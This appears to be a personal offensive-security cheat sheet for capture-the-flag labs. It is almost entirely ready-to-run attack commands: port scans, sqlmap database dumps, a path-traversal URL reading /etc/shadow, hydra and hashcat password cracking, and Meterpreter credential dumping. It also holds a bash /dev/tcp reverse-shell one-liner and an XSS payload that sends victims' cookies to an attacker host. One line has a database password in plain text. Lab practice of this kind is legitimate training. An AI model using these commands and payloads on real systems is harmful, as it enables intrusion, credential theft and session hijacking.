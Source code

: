 # Cheat Sheet

## Enumeration

sudo masscan -e tun0 -p1-65535,U:1-65535 10.10.1.109 --rate=1000 (quick open port scan)

nmap -sV -v -Pn -n -p8000,9300,22,5601,1111,9200 10.10.1.109 (then scan the ports found with masscan)

nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.119.138 (enum samba shares)

nmap -sV -p- 10.10.10.10 (service scan)

nmap -A -T4 --script vuln -p- 10.10.10.10 (full scan)

nmap -sV -vv --script vuln 10.10.10.10 (vuln scan)
  
nmap -O 10.10.10.10 (operating system scan) 

nikto -host 10.10.200.161 (web scan)

enum4linux -a 10.10.26.102 | tee enum4linuxOutput.log

## Linux

cat /etc/passwd (get list of users)

sudo cat /etc/shadow (hash of password)

find / -type f -perm -o+w 2>/dev/null (find files with write permissions)

## msfconsole

db_nmap -sV BOX-IP

use shell_to_meterpreter

set payload payload/linux/x86/meterpreter/reverse_tcp

run post/multi/recon/local_exploit_suggester

load kiwi (creds_all)

***spawn shell from meterpreter***

shell

script -qc /bin/bash /dev/null 

## FTP

scp linpeas.sh jan@10.10.122.69:/dev/shm

## mysql 

mysql -h 10.10.28.115 -u(root) -p(ff912ABD*)

show databases;

use data;

select * from USERS;

## sql injection

sqlmap -u 10.10.115.80/register.php --data "log_email=test&log_password=test&login_button=Login" --method POST -p "log_email,log_password" --level=3 --batch

sqlmap -u 10.10.87.14/register.php --data "log_email=test&log_password=test&login_button=Login" --method POST -p "log_email,log_password" --level=3 --dbms=mysql 5.02 --batch -D social --columns -T users --dump

## LFI

http://10.10.58.44/get-file/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fshadow

## mountd (mount NFS drive)

/sbin/showmount -e 10.10.10.10 

sudo mkdir /mnt/thm

mount 10.10.10.10:/opt/files /mnt/thm

sudo umount -f -l thm

## gobuster

gobuster dir -u http://ip:port -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 30

## crack passwords

hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.212.195 -t 4 http-form-post "/login:username=^USER^&password=^PASS^:F=incorrect" (web login portal password)

hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.212.195 -t 4 ssh

hydra -l sam -P /usr/share/wordlists/rockyou.txt 10.10.120.174 -t 4 -s 4567 ssh (ssh port 4567)

fcrackzip -b --method 2 -D -p /usr/share/wordlists/rockyou.txt -v ./christmaslists.zip (zip password)

hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt --force (crack hash)

hashcat -m 0 hash /usr/share/wordlists/rockyou.txt --force (crack hash md5)

| hashid        | hashcat |
|---------------|---------|
| SHA-512 Crypt | 1800    |
|               |         |
|               |         |

## Encryption

pg -d note1.txt.gpg (decrypt gpg)

steghide extract -sf ./TryHackMe.jpg (stenography)

/home/kali/.local/bin/stegcracker cute-alien.jpg /usr/share/wordlists/rockyou.txt

crack zip password

```
/usr/sbin/zip2john 8702.zip > output
sudo john output
```

binwalk cutie.png

binwalk cutie.png -e (extract hidden files)

openssl rsautl -decrypt -inkey private.key -in note2_encrypted.txt -out file.txt (asymmetric decryption using private key) 

## cmd to start reverse shell 

bash -i >& /dev/tcp/10.4.9.144/1234 0>&1

## listen for reverse shell

netcat -lvnp 1234 (or nc)

upgrade shell
```
python -c "import pty; pty.spawn('/bin/bash')"

control+z

stty raw -echo

fg

press enter a few times

export TERM=xterm
```
## XSS 

<script> new Image().src = "http://myIP:1234/stolencookie.php?cookie="+document.cookie;</script> (payload)

ncat -lkvnp 1234 (listen to payload)

# privilege escalation using SUID

find / -user root -perm -4000 2>> /dev/null (find SUID files)

## ssh with private key

/usr/share/john/ssh2john.py key > forjohn

/usr/sbin/john forjohn --wordlist=/usr/share/wordlists/rockyou.txt

chmod 600 key

ssh -i key kay@10.10.122.69

## upload files to box

host on own computer
ls to directory

```
sudo python -m SimpleHTTPServer
```

get on box

```
wget http://10.4.9.144:8000/linpeas.sh
```
## download files from box

on own machine
```
scp james@10.10.165.113:Alien_autospy.jpg /home/kali/Downloads
```

## decode/encode

https://gchq.github.io/CyberChef/
